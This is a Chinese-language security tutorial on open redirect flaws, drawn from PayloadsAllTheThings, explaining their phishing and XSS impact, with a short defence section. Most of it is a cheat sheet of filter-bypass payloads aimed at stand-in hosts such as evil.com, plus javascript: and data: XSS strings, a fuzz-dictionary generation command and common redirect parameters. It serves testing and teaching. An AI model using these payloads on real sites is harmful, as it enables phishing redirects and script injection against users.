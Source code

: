 ### 简介

任意重定向(Open Redirection)

### 漏洞原理

如果重定向到`evil.tld`则存在任意重定向漏洞
```
https://famous-website.tld/signup?redirectUrl=https://evil.tld/account
```

使用HTTP响应状态码`3xx`进行重定向

**HTTP Redirection Status Code - 3xx**
- [300 Multiple Choices](https://httpstatuses.com/300)
- [301 Moved Permanently](https://httpstatuses.com/301)
- [302 Found](https://httpstatuses.com/302)
- [303 See Other](https://httpstatuses.com/303)
- [304 Not Modified](https://httpstatuses.com/304)
- [305 Use Proxy](https://httpstatuses.com/305)
- [307 Temporary Redirect](https://httpstatuses.com/307)
- [308 Permanent Redirect](https://httpstatuses.com/308)


### 漏洞影响

* 任意重定向(Open Redirection)漏洞影响
  * 跳转 - 借用合法网站aaa.com的域名，跳转到"钓鱼"等其他网站
  * XSS

### 测试方法

有一定安全意识的开发人员会对"跳转目的值"使用"关键字白名单"进行校验，我们尝试利用这些"关键字白名单"来绕过不够严谨的校验

尝试找到并利用aaa.com的任意重定向漏洞 跳转到evil.com

* 手工测试 - 任意重定向漏洞导致的跳转 - "跳转目的值"
  * 使用特定子域名绕过不严谨的"关键字白名单"校验   `www.aaa.com.evil.com`
  * 使用`@`绕过白名单机制                        `http://www.aaa.com@evil.com/`
  * 使用参数污染 绕过白名单机制                   `?next=whitelisted.com&next=evil.com`
  * 使用子文件夹名 绕过白名单机制                 `http://www.evil.com/http://www.aaa.com/` `http://www.evil.com/folder/www.aaa.com`
  * 使用CRLF绕过对字符串`javascript`的检测和限制  `java%0d%0ascript%0d%0a:alert(0)`
  * 使用`//`绕过对字符串`http`的检测和限制        `//evil.com`
  * 使用`https:`绕过对字符串`//`的检测和限制      `https:evil.com`
  * 使用`\/\/` 绕过对字符串`//`的检测和限制       `\/\/evil.com/` `/\/evil.com/`
  * 使用`。`即%E3%80%82绕过对`.`的检测和限制      `/?redir=evil。com`  `//evil%E3%80%82com`
  * 使用%00绕过黑名单机制                        `//evil%00.com`
  * ...
* 手工测试 - 任意重定向漏洞导致的XSS
  * XSS from Open URL  `";alert(0);//`
  * XSS from `data://` wrapper   `http://www.aaa.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`
  * XSS from `javascript://` wrapper  `http://www.aaa.com/redirect.php?url=javascript:prompt(1)`
* 自动化 - 生成"跳转目的值"字典 进行fuzz 测试任意重定向漏洞 (跳转+XSS)
  * 进入文件夹`/PayloadsAllTheThings/Open redirect`
  * 执行命令 生成针对aaa.com的"任意重定向漏洞"fuzz字典 `Open-Redirect-payloads-burp-aaa.com.txt`

```
WHITELISTEDDOMAIN="www.aaa.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```


**常见参数**
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```


### SDL - 防御与修复方案

* 如果有非法字符return false
* 严格限制参数值内容-"关键字白名单"
* 严格限制参数值长度
* ...

>参考[PayloadsAllTheThings/Open Redirect/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20Redirect/README.md)
